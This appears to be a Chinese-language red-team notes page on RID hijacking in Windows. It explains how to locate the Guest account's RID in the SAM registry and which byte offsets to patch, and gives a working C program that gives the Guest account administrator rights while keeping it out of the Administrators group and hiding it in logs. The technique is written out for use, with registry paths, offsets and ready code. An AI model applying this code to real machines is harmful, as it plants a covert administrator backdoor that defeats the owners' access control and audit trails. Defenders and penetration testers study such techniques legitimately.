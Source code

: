 ```yaml
---
description: RID-hijack
---
```


# RID劫持

## RID Hijack简介

在windows系统内，使用rid区分用户组和用户账户，rid是安全标识符sid的一部分，每创建一个组或一个用户，都会往后递增一位，通常administrator的rid始终为500，而标准用户通常以1001开始。

![](../.gitbook/assets/image%20%2837%29.png)

 [Sebastian Castr](https://twitter.com/r4wd3r)发现可以通过修改注册表来劫持有效账户的RID，使guest成为管理员，同时进行活动的话会以原本的身份记录在日志内。

## 手工操作

windows内置访客账户guest的rid信息储存在一下键值对内。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

![0x1f5&#x8F6C;&#x6362;&#x6210;&#x5341;&#x8FDB;&#x5236;501](../.gitbook/assets/image%20%2825%29.png)

也可以通过wmic查询。

```text
wmic useraccount where (name='Guest') get name,sid
```

![](../.gitbook/assets/image%20%2831%29.png)

通过RID在如下键值对内寻找账户的相关信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

找到如下注册表项的键值对“F",此键值对内存储着标识账户RID和是否开启的数值。

PS:需要system权限。

![](../.gitbook/assets/image%20%2874%29.png)

在"F"键值对偏移0x30的位置存储着RID，修改为0xF401\(500\)即可劫持RID。

偏移0x38确定账户是否启用\(0X1502-&gt;关闭,0x1402-&gt;启用\)。

更改这些值将启用启用来宾帐户（有时情况下一部分），并劫持提升的RID（本地管理员）。来宾帐户将具有管理员权限，但是该帐户仍然不会出现在本地管理员组中。

## 代码实现

由于powershell和bat的脚本在互联网上可以轻易找到，这里只给出c的版本。

在metasploit和empire内也有比较成熟的模块。

```text
#include <Windows.h>
#include <stdio.h>


int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest
	
	RegSetValueExA(hKey, "F",NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}

```

## LINKS

{% embed url="https://pentestlab.blog/category/red-team/persistence/page/1/" %}

{% embed url="https://xz.aliyun.com/t/2998" %}



